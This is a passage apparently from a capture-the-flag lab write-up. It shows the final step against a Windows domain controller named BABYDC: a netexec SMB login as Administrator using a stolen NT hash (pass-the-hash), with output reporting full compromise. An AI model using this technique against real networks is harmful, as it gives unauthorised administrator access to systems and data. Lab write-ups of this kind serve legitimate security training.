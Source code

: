Now that we have all the stored credentials, we can just grab the domain admin's NT hash and log in to get the final flag. 

```console
〉nxc smb $ip -u 'Administrator' -H '[REDACTED]'  
SMB         10.10.65.95     445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (sig  
ning:True) (SMBv1:False)  
SMB         10.10.65.95     445    BABYDC           [+] baby.vl\Administrator:[REDACTED] (Pwn3d!)
```

